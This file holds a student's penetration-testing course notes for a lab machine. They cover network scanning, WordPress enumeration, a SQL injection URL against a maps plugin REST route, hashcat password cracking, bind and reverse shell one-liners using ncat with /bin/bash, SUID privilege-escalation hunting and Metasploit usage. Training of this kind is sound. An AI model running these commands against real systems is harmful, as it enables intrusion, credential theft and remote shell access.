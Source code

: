 # Ethical Hacking Playbook Notes

## Week 1: First Steps & Cracking WP 
- Get IP address of vulnerable machine
  - `ip a` to get IP addresses of hacking machine
  - Review output to find the relevant network id
  - `nmap [ip]/[subnet-mask] -T5` to get list of everything on that network
  - Look at output - one of them will be the hacker devices and others will be the target devices. Find the target device
- NMAP of vulnerable device to see what it's got going on
  - `nmap -sV [ip addr] -T5 -p-` to scan all ports on the target device (this also banner grabs)
```
  PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
23/tcp   open  telnet      Linux telnetd
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
4343/tcp open  unicall?
```
- Review what is running
  - We see that 80/tcp is open so we can use Nikto to see what is running
- Nikto
  - `nikto -h http://[ip]`
  - From here, we can see that WordPress exists so we can use WP Scan to dig into it
- WP Scan
  - `wpscan --url http://[ip]`
  - From this we can see what plugins are on the WordPress. Open their readmes and check what their versions are then google it to find the vulnerable one.
- WP Rest Route
  - `http://loan.atlas.local/index.php?rest_route=/wpgmza/v1/markers&filter={}&fields=*from%20Information_schema.tables--%20-`
- Hashcat
  - Cracks password hashes. Needs Wordlist (https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) and `hashfile` (creatable using vi and the JSON output of the WP Rest Route)
  - Run hashcat with the command `hashcat -m 400 -a 0 hashfile rockyou.txt` (options `-D 1` to use cpu; `--show` to output found pws)

# Week 2: Further Information Gathering
- Finding Info about devices over the internet
  - `ping`, `nslookup`, `traceroute`, `whois`, `host`, `dig`, etc
  - DNS Recon: `dnsrecon -d [domain] -t afxr`
  - DNS Enumeration: `dnsenum [domain]`
- Directory Scanning
  - gobuster
    - `gobuster -u http://[url] -w [path_to_wordlist]`
    - Can pass output to grep to filter out redirects `| grep -v '301|\302`
    - Review the output contents

# Week 3: Exploitation Concepts
- Bind Shell (nb `ncat` can be swapped out for `nc`) (target connects to attack)
  - On target machine (will probably be through an injection point): `ncat -lvnp 4444 -e /bin/bash`
  - On attack machine: `ncat [target ip] 444`
- Reverse shell
  - Attack machine: `ncat -lvnp 4444`
  - Target machine: `ncat [attack_ip] 4444 -e /bin/bash`
- Spawning Interactive Shell using python
  - Check which python installed: `which python python3`
  - Span (swap `python` for `python3` if needed): `python -c 'import pty; pty.spawn("/bin/bash")'`
- Finding plaintext passwords `find / -name "password"`

## Finding SUID bits
These are the bits which mean any account can run the cmd as root:
`find / -perm -u=s -type f 2>/dev/null ` 
then lookup on https://gtfobins.github.io/

## Metsaploit
- `msfconsole` to get into it
- `use exploit [exploit path]` to define which exploit to use
- Set target (`show targets`, `set TARGET [targetId]`)
- Options (`show options` `set [optionName] [val]`) for required options (RHOSTS is the target ip / uri)
- Run `exploit` to exploit the vulnerability, it gives diagnostic messages
- should then get `meterpreter>` prompt, `help` gives list of available commands. from here, get into shell then you're into normal shell steps
- check wp-config.php!
- `sudo su` to switch user to root account


rockyou path